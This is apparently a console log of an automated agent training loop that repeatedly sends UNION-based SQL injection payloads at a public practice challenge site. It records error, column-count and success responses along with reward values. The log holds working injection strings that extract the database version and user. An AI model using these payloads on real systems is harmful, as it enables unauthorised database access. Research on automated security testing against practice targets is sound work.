https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Se

  0%|          | 195/1000000 [1:33:15<13640:36:14, 49.12s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 196/1000000 [1:33:16<9629:45:21, 34.67s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union 

  0%|          | 197/1000000 [1:34:01<10540:35:14, 37.95s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.o

  0%|          | 198/1000000 [1:35:01<12389:52:05, 44.61s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 199/1000000 [1:35:02<8735:02:16, 31.45s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 200/1000000 [1:35:03<6187:41:29, 22.28s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server

  0%|          | 201/1000000 [1:35:10<4963:06:17, 17.87s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
ht

  0%|          | 202/1000000 [1:35:24<4608:58:56, 16.60s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixe

  0%|          | 203/1000000 [1:35:31<3776:45:32, 13.60s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 204/1000000 [1:35:32<2718:45:32,  9.79s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https:

  0%|          | 205/1000000 [1:35:54<3742:57:43, 13.48s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervi

  0%|          | 206/1000000 [1:37:18<9641:31:59, 34.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 207/1000000 [1:37:19<6822:26:31, 24.57s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server

  0%|          | 208/1000000 [1:37:29<5638:29:50, 20.30s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 209/1000000 [1:37:30<4026:20:37, 14.50s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 210/1000000 [1:37:31<2890:35:06, 10.41s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 211/1000000 [1:37:32<2083:44:38,  7.50s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server

  0%|          | 212/1000000 [1:38:47<7750:07:01, 27.91s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select versi

  0%|          | 213/1000000 [1:40:49<15573:14:46, 56.08s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 214/1000000 [1:40:50<10974:36:32, 39.52s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 215/1000000 [1:40:52<7847:12:38, 28.26s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server re

  0%|          | 216/1000000 [1:42:10<12037:26:58, 43.34s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 

  0%|          | 217/1000000 [1:43:03<12829:58:17, 46.20s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 218/1000000 [1:43:04<9062:55:57, 32.63s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 219/1000000 [1:43:05<6407:28:57, 23.07s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 220/1000000 [1:43:07<4644:32:17, 16.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server res

  0%|          | 221/1000000 [1:43:56<7347:25:50, 26.46s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 222/1000000 [1:43:57<5218:19:42, 18.79s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 223/1000000 [1:43:58<3716:28:32, 13.38s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. 

  0%|          | 224/1000000 [1:44:57<7569:33:34, 27.26s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 225/1000000 [1:44:58<5371:38:12, 19.34s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 226/1000000 [1:44:59<3837:08:43, 13.82s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 227/1000000 [1:45:00<2767:21:37,  9.96s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 228/1000000 [1:45:02<2093:53:56,  7.54s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 229/1000000 [1:45:03<1540:31:18,  5.55s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 230/1000000 [1:45:08<1470:22:09,  5.29s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server re

  0%|          | 231/1000000 [1:46:49<9488:01:53, 34.16s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 232/1000000 [1:46:50<6711:27:24, 24.17s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 233/1000000 [1:46:53<4977:48:58, 17.92s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 234/1000000 [1:46:54<3558:03:02, 12.81s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 235/1000000 [1:46:55<2572:21:16,  9.26s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 236/1000000 [1:46:56<1879:34:22,  6.77s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union

  0%|          | 237/1000000 [1:47:17<3057:41:54, 11.01s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 238/1000000 [1:47:19<2276:21:03,  8.20s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 239/1000000 [1:47:20<1655:59:54,  5.96s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 240/1000000 [1:47:20<1226:48:26,  4.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 241/1000000 [1:47:21<939:49:02,  3.38s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 242/1000000 [1:47:22<721:04:33,  2.60s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union s

  0%|          | 243/1000000 [1:47:30<1150:26:37,  4.14s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 244/1000000 [1:47:31<883:25:58,  3.18s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select v

  0%|          | 245/1000000 [1:47:38<1180:03:27,  4.25s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 246/1000000 [1:47:38<907:11:23,  3.27s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 247/1000000 [1:47:39<670:18:06,  2.41s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user

  0%|          | 248/1000000 [1:49:49<11333:52:03, 40.81s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 249/1000000 [1:49:51<8074:43:53, 29.08s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 250/1000000 [1:49:52<5716:44:22, 20.59s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


